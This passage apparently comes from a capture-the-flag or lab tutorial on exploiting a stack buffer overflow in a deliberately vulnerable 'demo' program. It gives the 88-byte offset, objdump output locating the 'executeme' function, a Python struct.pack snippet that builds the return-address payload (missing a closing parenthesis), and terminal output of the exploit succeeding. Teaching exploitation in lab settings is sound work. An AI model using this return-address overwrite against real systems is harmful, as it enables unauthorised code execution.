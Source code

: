 **Great!**

We now know that we need to have **88 bytes** in our buffer before we overwrite the stack pointer.

## Step 3: Pointing the Stack Pointer to the `executeme` Function

Our goal is to overwrite the value on the stack pointer to be the address of the `executeme` function so that we execute it. We can figure out the address using `objdump` again since the PIE protection is disabled and the function will reliably load with the same address.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ objdump -d demo

demo:     file format elf64-x86-64

...

0000000000401142 <executeme>:
  401142:    55                       push   %rbp
  401143:    48 89 e5                 mov    %rsp,%rbp
  401146:    48 8d 3d bb 0e 00 00     lea    0xebb(%rip),%rdi        # 402008 <_IO_stdin_used+0x8>
  40114d:    e8 de fe ff ff           callq  401030 <system@plt>
  401152:    90                       nop
  401153:    5d                       pop    %rbp
  401154:    c3                       retq   

...
```

Copy the hexadecimal address `0000000000401142` next to the `<executeme>` and save it somewhere for when we develop our payload!

## Step 4: Writing a Python Script to Generate Our Payload

Now we have everything we need to generate our payload! Our payload will be 88 bytes of the character `"A"` (in can be any character) followed by the target address `0x0000000000401142` packed in **little-endian** byte order (this is because of how most operating systems work at a low level). You can generate the address payload using the `struct` module and the following code snippet.

```
import struct

payload_address = struct.pack('<Q', int('0x0000000000401142', base=16)
```

The rest of the python code will be left for you to complete. The following output was from my payload generating exploit code that saved the payload into a file called `exploit.bin` that I then piped into the vulnerable program.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ ./demo < exploit.bin
Name:
Thanks for connecting AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB@!
I go to go now, bye!
SUCCESSFUL BOF ATTACK! YAY :D
zsh: segmentation fault  ./demo < exploit.bin
```

If you have successfully exploited the `demo` program you can now do the main challenge!
